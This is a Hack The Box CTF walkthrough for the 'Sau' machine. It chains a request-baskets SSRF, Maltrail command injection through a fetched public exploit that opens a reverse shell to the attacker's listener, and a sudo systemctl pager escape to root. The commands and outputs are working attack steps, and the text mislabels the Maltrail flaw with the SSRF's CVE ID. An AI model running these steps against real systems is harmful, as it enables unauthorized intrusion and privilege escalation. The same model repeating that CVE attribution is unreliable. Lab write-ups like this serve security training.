

# Sau

.png>)

***

## Intro

| Box Info            |        |
| ------------------- | ---------------------------------------------- |
| 🔗 Name             | [Sau](https://app.hackthebox.com/machines/551) |
| 🎯 Target IP        | `10.10.11.224`                                 |
| 📈 Difficulty level | 🟩Easy                                         |
| 🐧OS                | Linux                                          |

***

## Recon

```bash
mkdir -p $HOME/htb/sau/nmap
cd $HOME/htb/sau
```

Start Reconnaissance

```bash
# Fast full TCP port scan
nmap -p- --min-rate 10000 10.10.11.224
```

```bash
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    filtered http
8338/tcp  filtered unknown
55555/tcp open     unknown
```

```bash
# Scan open ports with default scripts and version detection
nmap -p <PORTS> -sC -sV -vv -oA nmap/sau 10.10.11.224

cat nmap/sau.nmap
```

```bash
PORT      STATE    SERVICE REASON         VERSION
22/tcp    open     ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDdY38bkvujLwIK0QnFT+VOKT9zjKiPbyHpE+cVhus9r/6I/uqPzLylknIEjMYOVbFbVd8rTGzbmXKJBdRK61WioiPlKjbqvhO/YTnlkIRXm4jxQgs+xB0l9WkQ0CdHoo/Xe3v7TBije+lqjQ2tvhUY1LH8qBmPIywCbUvyvAGvK92wQpk6CIuHnz6IIIvuZdSklB02JzQGlJgeV54kWySeUKa9RoyapbIqruBqB13esE2/5VWyav0Oq5POjQWOWeiXA6yhIlJjl7NzTp/SFNGHVhkUMSVdA7rQJf10XCafS84IMv55DPSZxwVzt8TLsh2ULTpX8FELRVESVBMxV5rMWLplIA5ScIEnEMUR9HImFVH1dzK+E8W20zZp+toLBO1Nz4/Q/9yLhJ4Et+jcjTdI1LMVeo3VZw3Tp7KHTPsIRnr8ml+3O86e0PK+qsFASDNgb3yU61FEDfA0GwPDa5QxLdknId0bsJeHdbmVUW3zax8EvR+pIraJfuibIEQxZyM=
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEFMztyG0X2EUodqQ3reKn1PJNniZ4nfvqlM7XLxvF1OIzOphb7VEz4SCG6nXXNACQafGd6dIM/1Z8tp662Stbk=
|   256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICYYQRfQHc6ZlP/emxzvwNILdPPElXTjMCOGH6iejfmi
80/tcp    filtered http    no-response
8338/tcp  filtered unknown no-response
55555/tcp open     http    syn-ack ttl 63 Golang net/http server
| http-title: Request Baskets
|_Requested resource was /web
| http-methods: 
|_  Supported Methods: GET OPTIONS
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Tue, 01 Jul 2025 06:02:02 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, LPDString, RTSPRequest, SIPOptions, SSLSessionReq, Socks5: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Tue, 01 Jul 2025 06:01:46 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Tue, 01 Jul 2025 06:01:46 GMT
|     Content-Length: 0
|   OfficeScan: 
|     HTTP/1.1 400 Bad Request: missing required Host header
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|_    Request: missing required Host header
1 service unrecognized despite returning data.[...]
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Browse to `http://10.10.11.224:55555/`

* Powered by [request-baskets](https://github.com/darklynx/request-baskets) - version: `1.2.1` - a web service used to colect arbitrary HTTP requests and inspect them via RESTful API or simple web UI

***

## Exploitation

### SSRF - Request-baskets

The **request-baskets** project has been associated with a **Server-Side Request Forgery** (`SSRF`) vulnerability, specifically identified as [CVE-2023-27163](https://nvd.nist.gov/vuln/detail/CVE-2023-27163).

* [CVE-2023-27163 | INCIBE-CERT | INCIBE](https://www.incibe.es/en/incibe-cert/early-warning/vulnerabilities/cve-2023-27163)
* [Request-Baskets 1.2.1 Server-Side Request Forgery (CVE-2023–27163) | by Imène ALLOUCHE | Medium](https://medium.com/@li_allouche/request-baskets-1-2-1-server-side-request-forgery-cve-2023-27163-2bab94f201f7)
* This vulnerability affects request-baskets up to version 1.2.1 and allows attackers to forward HTTP requests to internal or private services.
* The vulnerability is present in the `/api/baskets/{name}` component, which can be exploited to access network resources and sensitive information.
* **Information Disclosure:** The SSRF lets attackers retrieve any internal resource over HTTP, enabling exfiltration of sensitive data beyond just unauthenticated images.
* **Unauthenticated Internal Access:** Exploitation grants access to internal services like Nginx, APIs, and databases across the local network without credentials.
* **Port Scanning and Enumeration:** Attackers can scan ports and map internal hosts, exposing network architecture and potential attack surfaces.

An exploit for this vulnerability has been published, demonstrating how attackers can leverage the SSRF flaw to create a local proxy for HTTP requests on the targeted machine.

* [SSRF Vulnerability Exploit for Request-Baskets (CVE-2023-27163)](https://github.com/mathias-mrsn/request-baskets-v121-ssrf)
* [entr0pie/CVE-2023-27163: Proof-of-Concept for Server Side Request Forgery (SSRF) in request-baskets (<= v.1.2.1)](https://github.com/entr0pie/CVE-2023-27163)
* [PoC via Bash - Request-Baskets 1.2.1 Server-Side Request Forgery - exploit database | Vulners.com](https://vulners.com/packetstorm/PACKETSTORM:174128)
* The exploit calls the vulnerable API component to create a new basket, initiating a `POST` request. The attacker can modify the `forward_url` parameter to a local service and set the `proxy_response` to `true`.

Let's try the following PoC by `entr0pie`:

```bash
wget https://raw.githubusercontent.com/entr0pie/CVE-2023-27163/main/CVE-2023-27163.sh

bash ./CVE-2023-27163.sh http://10.10.11.224:55555/ http://127.0.0.1:80

    Proof-of-Concept of SSRF on Request-Baskets (CVE-2023-27163) || More info at https://github.com/entr0pie/CVE-2023-27163

    > Creating the "izlhms" proxy basket...
    > Basket created!
    > Accessing http://10.10.11.224:55555/izlhms now makes the server request to http://127.0.0.1:80.
    ./CVE-2023-27163.sh: line 43: jq: command not found
    > Response body (Authorization): {"token":"pl7QAVMhXIgCLZKKEqru5rWmaXilHIucmPQ_JurKE_jl"}
```

Visit the generated URL -> `http://10.10.11.224:55555/izlhms`

* The webserver on port `80` is powered by Maltrail `v0.53`
* Same on port `8338`



***

## Foothold

### RCE - Maltrail

Maltrail `v0.53` is associated with the [CVE-2023-27163](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2023-27163) vulnerability, which is a **remote code execution** (**RCE**) flaw.

* This vulnerability allows attackers to execute arbitrary code on the target system without authentication. The exploit leverages a command injection vulnerability in the `params.get("username")` parameter of the `mailtrail/core/http.py` file
* [Exploiting Maltrail v0.53 — Unauthenticated Remote Code Execution (RCE) | by Security Lit Limited | Medium](https://securitylit.medium.com/exploiting-maltrail-v0-53-unauthenticated-remote-code-execution-rce-66d0666c18c5)
* [GitHub - spookier/Maltrail-v0.53-Exploit: RCE Exploit For Maltrail-v0.53](https://github.com/spookier/Maltrail-v0.53-Exploit)
  * The `username` parameter of the login page does not properly sanitize the input, allowing an OS command injection attack
* Check [manual exploit by Ippsec](https://www.youtube.com/watch?v=H6QfYGeGdGQ\&t=780s)

```bash
# First get a new SSRF url with /login
bash ./CVE-2023-27163.sh http://10.10.11.224:55555/ http://127.0.0.1:80/login
```


* Use the generated URL in the following Maltrail Exploit -> `http://10.10.11.224:55555/oxmauw`

```bash
git clone https://github.com/spookier/Maltrail-v0.53-Exploit.git
cd Maltrail-v0.53-Exploit
```

* The exploit encodes a reverse shell payload in Base64 to bypass potential WAF, IPS/IDS protections, delivers it via a `curl` request to the target URL and executes it to establish a reverse shell back to the attacker's IP and port.
* In this specific case, remove the `+ "/login"` on line 28 of the `exploit.py`, save and run the modified script

```bash
# Start listener on KALI
nc -nvlp 443
```

```bash
python3 exploit.py 10.10.14.5 443 http://10.10.11.224:55555/oxmauw
```


```bash
$ id
id
uid=1001(puma) gid=1001(puma) groups=1001(puma)
```

* Shell upgrade

```bash
# script
script /dev/null -c bash
	CTRL+Z
stty raw -echo; fg
# Hit ENTER when cursor blinks
reset
	Terminal type? screen
export TERM=xterm
```

### Shell as user puma

```bash
# User Flag
puma@sau:/opt/maltrail$ cd

puma@sau:~$ find / -type f -iname user.txt 2>/dev/null

puma@sau:~$ cat /home/puma/user.txt
71a6b***************************
```

***

## Privilege Escalation

### Systemd CVE-2023-26604

```bash
puma@sau:~$ sudo -l
    Matching Defaults entries for puma on sau:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User puma may run the following commands on sau:
        (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

```bash
systemctl --version
	systemd 245 (245.4-4ubuntu3.22)
```

* `puma` user can run a specific `systemctl` command as root without password

Google `Systemd 245.4 CVE`

* Found [CVE-2023-26604](https://nvd.nist.gov/vuln/detail/CVE-2023-26604)
* Before version 247, **systemd** failed to set `LESSSECURE=1` when running `systemctl status` via `sudo`, allowing `less` (pager) to launch other programs as `root` if the output didn’t fit the terminal. This could lead to **local privilege escalation** if `sudoers` permitted `systemctl` execution.
* [CVE-2023–26604. How did i find it? | by Zenmovie | Medium](https://medium.com/@zenmoviefornotification/saidov-maxim-cve-2023-26604-c1232a526ba7)

### Shell as root

Run the following command with `puma` user and exploit `less`

```bash
sudo /usr/bin/systemctl status trail.service
```

* Since the weird TTY and screen, the output gets passed to `less`
* Enter `!sh` that will run `sh` and drops to a shell with the `root` user


```bash
# Root Flag
find / -type f -iname root.txt 2>/dev/null
cat /root/root.txt
101ef***************************
```

***

## Summary

1. Target runs **Request Baskets**.
2. **CVE-2023-27163** SSRF vulnerability present.
3. Malicious basket created to proxy internal requests.
4. Internal **Maltrail** service discovered via SSRF.
5. Maltrail has **unauthenticated OS command injection**.
6. Exploited injection to get reverse shell as **`puma`**.
7. Enumerated `sudo` permissions.
8. Found `systemd` `less` pager vulnerability (CVE-2023-26604).
9. Abused `less` to execute commands as `root`.

***

## Extra

* [HTB: Sau | 0xdf hacks stuff](https://0xdf.gitlab.io/2024/01/06/htb-sau.html)
* [Sau - Ippsec](https://www.youtube.com/watch?v=H6QfYGeGdGQ)

***
